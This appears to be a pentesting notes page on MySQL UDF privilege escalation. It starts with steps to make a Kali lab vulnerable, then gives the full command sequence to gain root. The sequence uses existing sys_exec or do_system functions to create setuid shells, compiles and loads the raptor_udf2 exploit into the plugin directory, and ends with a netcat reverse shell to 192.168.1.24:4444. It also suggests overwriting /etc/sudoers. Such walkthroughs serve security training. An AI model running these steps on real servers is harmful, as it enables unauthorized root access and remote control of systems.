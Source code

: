 # MySQL UDF

## Preparing system for test

for testing purposes you can make your mysql service vulnerable manually

To configure this vulnerability on Kali to test run the following commands.

#### &#x20; `chown -R root:root /var/lib/mysql` ` nano /etc/mysql/mariadb.conf.d/50-server.cnf` ` Change user=mysql to user=root and save the file` ` service mysql restart`

## Find which user the mysql servie is running as

in some situations we have a mysql running as root which we can use for privs. first we have to determin the commands that we can use in mysql.mysql has a module called UDF(User-Defined Function) which lets us run commands as the current user which myssql is runnung as. so whit this in mind we might be able to run root commands from mysql.

first we have to see if mysql is running as root:

\
&#x20;`ps aux | grep mysql`

![](../../../.gitbook/assets/udf1.png)

its running as root.login:

`mysql -u root`\
` use mysql; >>> mysql is the database`\
` select * from mysql.func; >>> search for udf`



![](../../../.gitbook/assets/udf2.png)

## if the mysql service already has the function we can skip exploit part:

now we use udf to copy /bin/sh to /tmp and make it executable for john to get a root prompt:

`select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh');`\
` OR`\
` select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');`

![](../../../.gitbook/assets/udf3.png)

exit and go to /tmp

run sh file:

![](../../../.gitbook/assets/udf4.png)

## if mysql doesnt have the function already we add it using the exploit:

{% embed url="https://www.exploit-db.com/download/1518.c" %}

{% file src="../../../.gitbook/assets/1518.c" %}

the instructions are in exploit itslef

compile on target machine

`gcc -g -c raptor_udf2.c >>> for 32 bit systems`\
` gcc -g -c raptor_udf2.c -fPIC >>> for 64 bit`\
` gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

This will prompt for the password.

mysql -u root -p >>> press enter without any password

`use mysql;`

now we will need to create a temporary table for us to work with. We need a place to load in the Shared Binary into MySQL.

`create table foo(line blob);`

Now that we have the table setup we will need to insert the contents into the table. We do this because the next step is to export it to a root only directory. Since it was moved over or compiled on the victims machine as a non root user this is the only way to do it.

change the file path

`insert into foo values(load_file('/path/to/the/file/raptor_udf2.so'));`

With the raw binary inside of the table we can select it and dump the contents onto the disk anywhere we like! Note that you can even push the contents of a new /etc/sudoers file and overwrite it!

For a UDF to work we need to find the location of the plugins directory. This is where we need the file to be stored. otherwise you will get an error refering to ‘raptor\_udf2.so’ cannot be found.

Look for the value of plugin\_dir:

`show variables like '%plugin%';`

Use the plugin\_dir as the dump file location:

`select * from foo into dumpfile "/usr/lib/mysql/plugin/raptor_udf2.so";`

If there are no errors you were able to sucessfully push the raw binary of raptor\_udf2.so into the plugins directory owned by root! Now we need to create the function to complete the privelege escalation.

`create function do_system returns integer soname 'raptor_udf2.so';`

Now that this is done we can confirm the functions is present in mysql.

`select * from mysql.func;`

If we see the name do\_system with the type function we are good to go. The only thing left is to actually run the code we want.

`select do_system('nc 192.168.1.24 4444 -e /bin/bash &');`

We now setup our listener and we have a root shell!
